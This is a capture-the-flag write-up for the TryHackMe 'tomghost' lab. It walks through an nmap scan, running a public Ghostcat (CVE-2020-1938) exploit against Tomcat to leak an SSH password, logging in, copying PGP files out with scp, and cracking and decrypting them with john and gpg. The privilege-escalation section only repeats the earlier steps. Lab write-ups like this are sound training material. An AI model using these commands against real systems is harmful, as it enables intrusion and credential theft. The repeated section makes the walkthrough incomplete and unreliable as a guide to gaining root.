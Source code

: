tomghost
===

### environment
KALI Linux ip 10.10.214.53

TARGET 10.10.94.155
###  Flags

- [x] Compromise this machine and obtain user.txt

First step, we namp scan which port are open and vulnerability

```
nmap -sV -sC 10.10.94.155
```

We know port 22 53 8009 8080 are open

![image](https://user-images.githubusercontent.com/67756786/194012149-caca49b0-a4a8-423f-a47e-501d61940d3d.png)

Now we visit 8080 page, and enumerate it.

![image](https://user-images.githubusercontent.com/67756786/194012721-d4a3b640-9642-47dc-86a5-e91f0f0d3ff6.png)

Enumerate web page

![image](https://user-images.githubusercontent.com/67756786/194013210-82d401e5-fba0-4457-9a46-6133945d398d.png)

In short , we got Apache Tomcat V9.0.30 and /examples. These two points seems to be injection.

Now we search vulnerability on google.

Tomcat can be RCE if that is old version.

V9.0.30 is't fixex version, we can use this vulnerability.
![image](https://user-images.githubusercontent.com/67756786/194015465-89303821-d433-475b-8198-72e99c2d1357.png)

/examples doesn't seem to have vulnerability

https://saucer-man.com/information_security/507.html

Now we git clone RCE python script, and excute this.

```
git clone https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat.git
python2.7 CVE-2020-1938.py 10.10.94.155 -p 8009 -f WEB-INF/web.xml
```
We can use this informaion to connet ssh .(skyfuck:8730281lkjlkjdqlksalks)
![image](https://user-images.githubusercontent.com/67756786/194019203-449285bb-0a0d-4b72-9ad3-88cc617b836f.png)

```
ssh skyfuck@10.10.94.155
```

We got first shell, and then confirm are we sudoer.

skyfuck should common user.

![image](https://user-images.githubusercontent.com/67756786/194020834-152a82e3-f7a4-4948-ae0d-aca7634df2ed.png)

Into /home dictionary confirm which user on machine.

![image](https://user-images.githubusercontent.com/67756786/194021167-9a11ae0d-4f72-4065-8ed9-91dab0f90d34.png)

Into merlin dictionary , we got user.txt.
![image](https://user-images.githubusercontent.com/67756786/194021208-7ed24479-6a0c-499b-a945-3680d1e164ec.png)

Into skyfuck dictionary, we got one asc file and pgp file.

![image](https://user-images.githubusercontent.com/67756786/194021490-89f47a28-dfec-4722-9f39-77986505bee9.png)

Scp both file.
```
scp tryhackme.asc root@10.10.214.53:~/tryhackme.asc
scp credential.pgp root@10.10.214.53:~/credential.pgp
```
check tryhackme.asc content, we know this file is PGP private key.

![image](https://user-images.githubusercontent.com/67756786/194023131-9d9ffcea-8bef-4be5-9dca-5489fd684eb6.png)

Now we can use john to crack.

```
gpg2john tryhackme.asc > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
Now we have gpg private key to crack credential.pgp
![image](https://user-images.githubusercontent.com/67756786/194025726-97709d6a-db3f-4287-bea7-7178bf98bdcd.png)

import private key, first.
```
gpg --import tryhackme.asc
```
![image](https://user-images.githubusercontent.com/67756786/194026019-301bf640-69a3-4209-92ce-e986bd061c99.png)

```
gpg --decrypt credential.pgp
```

![image](https://user-images.githubusercontent.com/67756786/194026271-29a81f59-490b-4c2f-bb94-b25a84bb160e.png)


- [x] Escalate privileges and obtain root.txt

Scp both file.
```
scp tryhackme.asc root@10.10.214.53:~/tryhackme.asc
scp credential.pgp root@10.10.214.53:~/credential.pgp
```
check tryhackme.asc content, we know this file is PGP private key.

![image](https://user-images.githubusercontent.com/67756786/194023131-9d9ffcea-8bef-4be5-9dca-5489fd684eb6.png)

Now we can use john to crack.

```
gpg2john tryhackme.asc > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
Now we have gpg private key to crack credential.pgp
![image](https://user-images.githubusercontent.com/67756786/194025726-97709d6a-db3f-4287-bea7-7178bf98bdcd.png)

import private key, first.
```
gpg --import tryhackme.asc
```
![image](https://user-images.githubusercontent.com/67756786/194026019-301bf640-69a3-4209-92ce-e986bd061c99.png)

```
gpg --decrypt credential.pgp
```

![image](https://user-images.githubusercontent.com/67756786/194026271-29a81f59-490b-4c2f-bb94-b25a84bb160e.png)
